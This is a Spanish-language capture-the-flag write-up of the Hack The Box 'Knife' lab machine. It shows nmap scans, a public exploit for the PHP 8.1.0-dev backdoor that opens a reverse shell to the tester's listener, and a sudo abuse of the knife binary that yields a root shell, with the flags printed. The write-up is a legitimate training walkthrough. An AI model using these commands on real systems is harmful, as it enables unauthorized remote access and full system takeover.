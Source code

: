 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

`Knife` es una máquina Linux de dificultad fácil que cuenta con una aplicación que se ejecuta en una versión de PHP con puerta trasera. Esta vulnerabilidad se aprovecha para obtener un punto de apoyo en el servidor. Luego se aprovecha una configuración incorrecta de sudo para obtener un shell de root.

<figure><img src="../../.gitbook/assets/Knife.png" alt="" width="563"><figcaption></figcaption></figure>

***

## Reconnaissance



```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:56 CET
Initiating SYN Stealth Scan at 04:56
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 04:56, 12.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.042s latency).
Scanned at 2025-01-26 04:56:13 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.242
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p22,80 10.10.10.242 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:58 CET
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   90.36 ms 10.10.16.1
2   31.31 ms knife.htb (10.10.10.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```





```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4128_vmware_hhbMEKYg8V.png" alt=""><figcaption></figcaption></figure>



## Initial Access



### PHP 8.1.0-dev - 'User-Agent' Remote Code Execution \[RCE]



<figure><img src="../../.gitbook/assets/imagen (264).png" alt=""><figcaption></figcaption></figure>



{% embed url="https://github.com/flast101/php-8.1.0-dev-backdoor-rce" %}



```bash
❯ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce; cd php-8.1.0-dev-backdoor-rce
Clonando en 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2 (from 1)
Recibiendo objetos: 100% (241/241), 1.66 MiB | 9.65 MiB/s, listo.
Resolviendo deltas: 100% (128/128), listo.
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```



```bash
❯ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.5 443
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.242] 52728
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat /home/james/user.txt
cat /home/james/user.txt
a7ef6c4416770ea516c4b6b8e7fc7304
```



## Privilege Escalation



### Abusing sudoers privilege (knife)



```bash
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```



{% embed url="https://gtfobins.github.io/gtfobins/knife/" %}

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/# cat /root/root.txt
cat /root/root.txt
a802f8156fabc107613019765155b2bc
```
